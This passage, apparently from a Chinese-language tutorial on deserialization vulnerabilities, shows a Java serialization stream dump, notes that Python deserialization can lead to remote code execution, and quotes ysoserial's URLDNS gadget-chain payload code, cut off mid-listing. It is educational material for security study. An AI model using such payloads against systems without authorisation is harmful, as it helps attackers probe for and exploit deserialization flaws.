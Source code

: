 ```java
                Length - 8 - 0x00 08
                Value - John Doe - 0x4a6f686e20446f65
        objectAnnotation
          TC_STRING - 0x74
            newHandle 0x00 7e 00 04
            Length - 16 - 0x00 10
            Value - This is a object - 0x546869732069732061206f626a656374 //我们写入的字符串内容
          TC_ENDBLOCKDATA - 0x78
```
可以看到`objectAnnotation`里面有我们调用`writeObject`写入的"This is a object"。

### Python

python反序列化比较特殊，它本质是在执行一个基于栈的虚拟机。如果能够控制反序列化的过程，可以通过添加指令构造Payload，直接完成RCE。

## URLDNS
`URLDNS`是一条最基础的Java反序列化利用链（gadget chains）。参数是`url`，触发一次DNS请求。这条链是用Java内置类构造，不需要任何依赖，也不需要漏洞点有回显，因此很多时候用于探测是否存在反序列化漏洞。

可以在`ysoseial`看`URLDNS`的代码。
> https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java

```java
public class URLDNS implements ObjectPayload<Object> {

        public Object getObject(final String url) throws Exception {

                //Avoid DNS resolution during payload creation
                //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
                URLStreamHandler handler = new SilentURLStreamHandler();

                HashMap ht = new HashMap(); // HashMap that will contain the URL
                URL u = new URL(null, url, handler); // URL to use as the Key
                ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

                Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

                return ht;
        }

        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }

        /**
         * <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
         * DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
         * using the serialized object.</p>
         *
         * <b>Potential false negative:</b>
         * <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
         * second resolution.</p>
         */
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
```